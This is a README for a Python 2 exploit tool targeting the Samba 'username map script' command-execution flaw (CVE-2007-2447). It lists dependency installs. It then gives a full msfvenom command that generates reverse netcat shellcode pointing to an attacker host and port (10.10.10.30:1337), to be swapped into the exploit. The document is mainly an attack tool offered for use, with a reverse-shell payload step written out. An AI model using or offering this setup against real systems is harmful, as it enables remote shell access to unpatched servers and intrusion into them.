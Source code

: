 # smb-usermap-destroyer
Smb Usermap Destoyer is a python2 exploit for CVE-2007-2447 ( 'Username' map script Command Execution ).
I created my own python script to automate the attack and avoid the exploitation with msfconsole.

Before use the exploit install the following requirements:

➡ Install python2:
    apt install python

➡ Install pip:
    apt install python-pip (If you can't find python-pip package try donwload pip insytaller from: https://bootstrap.pypa.io/get-pip.py).

➡ Install with pip the pysmb implementation:
    pip install --user pysmb
        
Shellcode generation and configuration:

• Create your own Shellcode with your host and port:
    
𝗺𝘀𝗳𝘃𝗲𝗻𝗼𝗺 -𝗽 𝗰𝗺𝗱/𝘂𝗻𝗶𝘅/𝗿𝗲𝘃𝗲𝗿𝘀𝗲_𝗻𝗲𝘁𝗰𝗮𝘁 𝗟𝗛𝗢𝗦𝗧=𝟭𝟬.𝟭𝟬.𝟭𝟬.𝟯𝟬 𝗟𝗣𝗢𝗥𝗧=𝟭𝟯𝟯𝟳 -𝘃 𝘀𝗵𝗲𝗹𝗹𝗰𝗼𝗱𝗲 -𝗳 𝗽𝘆𝘁𝗵𝗼𝗻
    
• Then repllace the default.
